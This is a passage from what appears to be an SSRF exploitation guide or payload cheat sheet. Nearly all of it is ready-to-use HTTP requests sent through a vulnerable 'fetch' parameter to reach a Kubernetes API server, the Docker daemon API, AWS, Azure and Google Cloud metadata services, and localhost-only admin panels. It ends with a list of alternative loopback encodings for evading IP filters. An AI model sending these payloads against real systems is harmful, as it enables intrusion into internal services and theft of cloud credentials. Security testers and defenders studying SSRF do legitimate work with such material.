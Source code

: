 ```bash
    "Expiration": "2024-01-15T12:00:00Z"
}
```

**Kubernetes API Server Exploitation:**
```http
GET /fetch?url=https://10.0.0.1:6443/api/v1/namespaces HTTP/1.1
Host: vulnerable-app.com

GET /fetch?url=https://10.0.0.1:6443/api/v1/pods HTTP/1.1
Host: vulnerable-app.com
```

**Container Runtime APIs:**
```http
# Docker API (typically on port 2375/2376)
GET /fetch?url=http://localhost:2375/containers/json HTTP/1.1

# Extract container information
GET /fetch?url=http://localhost:2375/containers/container_id/json HTTP/1.1
```

**Cloud Provider Metadata Services:**
```bash
# AWS
http://169.254.169.254/latest/meta-data/

# Azure
http://169.254.169.254/metadata/instance?api-version=2021-02-01

# Google Cloud
http://metadata.google.internal/computeMetadata/v1/
```

**Localhost/Loopback Interface Exploitation:**

Many applications implement IP-based access controls that only allow localhost connections:

**Admin Panel Bypass:**
```http
GET /fetch?url=http://127.0.0.1/admin HTTP/1.1
Host: vulnerable-app.com

GET /fetch?url=http://localhost:8080/management HTTP/1.1
Host: vulnerable-app.com
```

**Alternative Localhost Representations:**
```bash
# Standard loopback
127.0.0.1, localhost

# Alternative representations
127.1, 127.0.1, 0.0.0.0, 0, 0x7f000001

# IPv6 loopback
::1, ::ffff:127.0.0.1

# Domain-based bypasses
localtest.me, 127.0.0.1.nip.io, localhost.localdomain
```
